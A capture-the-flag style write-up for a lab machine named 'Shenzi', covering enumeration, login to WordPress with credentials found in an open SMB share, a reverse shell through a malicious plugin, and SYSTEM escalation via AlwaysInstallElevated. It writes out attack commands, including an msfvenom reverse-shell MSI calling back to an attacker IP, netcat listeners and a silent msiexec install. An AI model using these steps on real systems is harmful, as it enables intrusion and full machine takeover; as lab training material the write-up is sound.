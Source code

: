 # Shenzi -  Writeup
## Initial Enumeration
### Port Scanning
```
PORT      STATE    SERVICE
21/tcp    open     ftp (FileZilla ftpd 0.9.41 beta)
80/tcp    open     http (Apache httpd 2.4.43)
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
443/tcp   open     ssl/http (Apache httpd 2.4.43)
445/tcp   open     microsoft-ds
3306/tcp  open     mysql
49664-9/tcp open   msrpc
```
### SMB Enumeration
Enumerated SMB shares and discovered a share named "shenzi" that was accessible without authentication.
Inside this share, found credentials for a WordPress installation:
- Username: admin
- Password: FeltHeadwallWight357
### Web Server Enumeration
The web server is running XAMPP with Apache 2.4.43, PHP 7.4.6, and OpenSSL 1.1.1g.
Default XAMPP page was found at the root, but discovered WordPress installation at `/shenzi`.
## Exploitation
### WordPress Access
1. Navigated to the WordPress admin panel at `http://192.168.145.55/shenzi/wp-admin/`
2. Logged in with the credentials found in the SMB share:
   - Username: admin
   - Password: FeltHeadwallWight357
### Gaining Initial Access
1. From the WordPress admin panel, uploaded a malicious plugin containing PHP code for a reverse shell
2. Set up a listener on my attack machine: `nc -lvnp 4444`
3. Activated the plugin through the WordPress interface
4. Received a reverse shell as the user "shenzi"
## Privilege Escalation
### Enumeration
After gaining initial access, ran PowerUp's `Invoke-PrivEscAudit` to identify potential privilege escalation vectors:
```powershell
Invoke-PrivEscAudit
```
Key findings:
- AlwaysInstallElevated registry keys were enabled
- Several modifiable service files were found (edgeupdate, edgeupdatem)
- Path DLL hijacking opportunities in `C:\Users\shenzi\AppData\Local\Microsoft\WindowsApps`
### Exploiting AlwaysInstallElevated
The `AlwaysInstallElevated` privilege allows standard users to install MSI packages with SYSTEM privileges. When both registry keys below are set to 1, this feature is enabled:
- HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
- HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
Exploitation steps:
1. Created a malicious MSI package with msfvenom:
   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.183 LPORT=3006 -a x64 --platform Windows -f msi -o evil.msi
   ```
2. Transferred the MSI to the target machine
3. Set up a listener on my attack machine:
   ```bash
   nc -lvnp 3006
   ```
4. Executed the MSI on the target:
   ```powershell
   msiexec /quiet /qn /i C:\Users\shenzi\Downloads\evil.msi
   ```
5. Received a reverse shell with SYSTEM privileges


